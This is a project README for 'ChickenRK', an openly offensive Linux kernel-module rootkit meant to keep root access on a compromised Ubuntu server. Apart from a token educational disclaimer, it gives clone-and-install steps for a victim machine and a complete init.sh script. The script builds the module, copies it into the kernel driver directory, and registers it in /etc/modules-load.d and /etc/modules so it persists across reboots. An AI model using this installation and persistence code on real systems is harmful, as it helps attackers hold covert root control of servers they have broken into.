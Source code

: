 # 🐣 Chicken RK
##### Disclaimer 
*This is for educationals purposes, hacking is bad, don't do bad things, because it's not good* !!!

ChickenRK is a rootkit, a LKM (**L**inux**K**ernel**M**odule) installed by an attacker after gained root privileges in order to maintain root access on a server, this is designed to work on Ubuntu on the last kernel version at this date (13/05/2023): Linux kernel 5.19.0-35-generic. 

First of all, why ChickenRK as a name for a rootkit, this is in memory of one of the greatest songs on the planet : [ChickenAttack](https://www.youtube.com/watch?v=mfKach4nmT0)

All this project is written in C on a `Ubuntu 22.04.1/5.19.0-35-generic`

It's my first real malware project and my first "useful" kernel driver, so I've learnt a lot during development of this project even if I didn't manage to do all tasks I wanted to but at least it's working and working on up to data Ubuntu.

## Instalation
- get a root shell :)
```
git clone https://github.com/giovanni-lb/chicken_rk.git

cd chicken_rk

sudo ./init.sh
```

## Features


### Persitance

Install the rootkit on the victim machine is good, but if you load your kernel driver using only `sudo insmod module.ko` once the machine rebooted your driver will be gone. One of the ways to make our drivers to be loaded at the boot time is to use the file [/etc/modules](https://manpages.ubuntu.com/manpages/trusty/fr/man5/modules.5.html) that coutain the list of custome kernel drivers to load at boot time.

I've made a little bash script in order to automate this task:
*init.sh*
```bash
#!/bin/bash

# compile the project
cd src/ && make clean && make install

# copy driver to persistance location
mkdir /lib/modules/5.19.0-41-generic/kernel/drivers/chicken_rk

cp my_rk.ko /lib/modules/5.19.0-41-generic/kernel/drivers/chicken_rk/

echo "chicken_rk" > /etc/modules-load.d/chicken_rk.conf

# Update kernel modules dependencies
depmod -a

# /etc/modules coutain the list of module that will be load at boot time
echo "chicken_rk" >> /etc/modules
```
